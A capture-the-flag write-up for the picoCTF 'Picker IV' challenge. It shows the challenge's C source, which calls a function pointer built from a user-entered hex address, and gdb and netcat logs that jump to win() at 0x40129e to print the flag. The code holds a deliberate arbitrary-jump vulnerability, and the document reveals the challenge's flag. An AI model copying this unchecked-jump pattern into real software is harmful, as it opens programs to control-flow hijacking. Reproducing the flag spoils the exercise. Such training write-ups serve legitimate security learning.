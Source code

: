 ### Picker IV

Author: LT 'syreal' Jones
#Medium #Binary_exploitation #picoGym 
#### Description

Can you figure out how this program works to get the flag? Connect to the program with netcat: `$ nc saturn.picoctf.net 61154` The program's source code can be downloaded [here](https://artifacts.picoctf.net/c/528/picker-IV.c). The binary can be downloaded [here](https://artifacts.picoctf.net/c/528/picker-IV).

##### Solution:
Understanding the Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void print_segf_message(){
  printf("Segfault triggered! Exiting.\n");
  sleep(15);
  exit(SIGSEGV);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, print_segf_message);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  unsigned int val;
  printf("Enter the address in hex to jump to, excluding '0x': ");
  scanf("%x", &val);
  printf("You input 0x%x\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}

```

1. **Signal Handler**: The `signal` function registers `print_segf_message()` to be called when a segmentation fault (SIGSEGV) occurs.
2. **Input Handling**: The program asks the user to input a hexadecimal address, reads it into the `val` variable, and then sets a function pointer `foo` to this value.
3. **Jump to User Input Address**: The function pointer `foo()` is then called, effectively jumping to the address specified by the user.

**Goal**
The goal is to execute the `win()` function by making the program jump to its address. To do this, you need to provide the correct address of `win()`.

---
Steps to Get the Flag
 1. **Determine the Address of `win()`**:
	 1. You need to find out where `win()` is located in memory. Typically, this requires:
	 2. Using a debugger like `gdb` (GNU Debugger) to determine the address.
 2. **Debugging with `gdb`**:
	- Compile the program: `gcc -Compile the program: gcc -o challenge challenge.c`
	-  Start `gdb`: `gdb ./challenge`
	- Set a breakpoint: `b main` (break at the `main()` function).
	- Run the program: `run`.
	- Use the command `p win` to print the address of `win()`.
    - This will return the address, e.g., `0x5655624a` (the address may vary).
3. **Provide the Address**:

	- Run the program outside of `gdb`: `./challenge`.
	- Enter the address you found, excluding the `0x` prefix. For example, if `win()` is at `0x5655624a`, you would input `5655624a`.

```css
┌──(kali㉿kali)-[~/Downloads/pico_ctf_lab]
└─$ gdb ./picker-IV -q
Reading symbols from ./picker-IV...
(No debugging symbols found in ./picker-IV)
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010e0  putchar@plt
0x00000000004010f0  puts@plt
0x0000000000401100  fclose@plt
0x0000000000401110  printf@plt
0x0000000000401120  fgetc@plt
0x0000000000401130  signal@plt
0x0000000000401140  setvbuf@plt
0x0000000000401150  fopen@plt
0x0000000000401160  __isoc99_scanf@plt
0x0000000000401170  exit@plt
0x0000000000401180  sleep@plt
0x0000000000401190  _start
0x00000000004011c0  _dl_relocate_static_pie
0x00000000004011d0  deregister_tm_clones
0x0000000000401200  register_tm_clones
0x0000000000401240  __do_global_dtors_aux
0x0000000000401270  frame_dummy
0x0000000000401276  print_segf_message
0x000000000040129e  win   ########################## this is win function
0x0000000000401334  main
0x00000000004013d0  __libc_csu_init
0x0000000000401440  __libc_csu_fini
0x0000000000401448  _fini
(gdb) 
```

```css
(gdb) print win
$1 = {<text variable, no debug info>} 0x40129e <win>
(gdb) p win
$2 = {<text variable, no debug info>} 0x40129e <win>
(gdb) 

```

```css
(gdb) r
Starting program: /home/kali/Downloads/pico_ctf_lab/picker-IV 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter the address in hex to jump to, excluding '0x': 0x40129e
You input 0x40129e
You won!
pico
[Inferior 1 (process 4211) exited normally]
(gdb) 
```

```css
┌──(kali㉿kali)-[~/Downloads/pico_ctf_lab]
└─$ ./picker-IV
Enter the address in hex to jump to, excluding '0x': 0x40129e
You input 0x40129e
You won!
pico # this is inside flag.txt
```

now on live server
```css
┌──(kali㉿kali)-[~/Downloads/pico_ctf_lab]
└─$ nc saturn.picoctf.net 54280
Enter the address in hex to jump to, excluding '0x': 0x40129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_14bc5444}  
```
